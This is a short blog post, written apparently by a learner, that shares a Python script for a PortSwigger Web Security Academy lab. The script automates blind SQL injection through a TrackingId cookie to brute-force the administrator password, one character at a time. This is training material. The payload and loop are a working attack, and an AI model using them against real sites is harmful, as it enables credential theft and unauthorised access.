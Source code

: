 ```yaml
---
layout: post
current: post
cover: 'assets/images/websecacademy/blindsql/cover.jpeg'
navigation: True
title: "Blind SQL injection with conditional responses script"
date: 2021-01-02 00:00:00
tags: [websecurityacademy, sqli, python]
class: post-template
subclass: 'post'
author: darryn
---
```

![blindsql](/assets/images/websecacademy/blindsql/cover.jpeg)

### Overview

This post is to provide the script I created to automate the process of using blind SQL injection with conditional responses to brute force a password. This was completed for a lab while completing the SQL Injection topic on [WebSecurity Academy](https://portswigger.net/web-security). I can't recommend this training enough, the content is well written and the labs are great and best of all its free!

As part of the lab I completed process in 3 ways, manually using Burp repeater, using Burp intruder and finally by writing this Python script. I still learning Python and this was a good exercise to do more Python coding and also reenforce the learning. 

### Final Script

```python
# 02/01/21
# blind-sql-lab.py
# https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
# POC script to automate getting the administrator password using blind sql conditional responses

import requests
import string

url = "" # Insert URL here!

cookievalue = ""
password = ""

cookies = {'TrackingId':cookievalue}

characters = list(string.ascii_lowercase)
characters = characters + list(string.digits)

for i in range(1,21):
    for char in characters:
        cookievalue = "x'+UNION SELECT+'a' FROM users WHERE username='administrator' AND substring(password,{},1)='{}'--".format(i,char)
        cookies = {'TrackingId':cookievalue}
        r = requests.get(url, cookies=cookies)
        response = r.text
        if "Welcome back!" in response:
            print(char)
            password = password + char
            
print("Password is: " + password)
```

### Next Steps

The script could be a lot better, for example:

- Initial check to test the website is up
- Run a test conditional check to test for SQL injection
- Automate the process of finding the password length and pass to the range function

Thanks for reading!

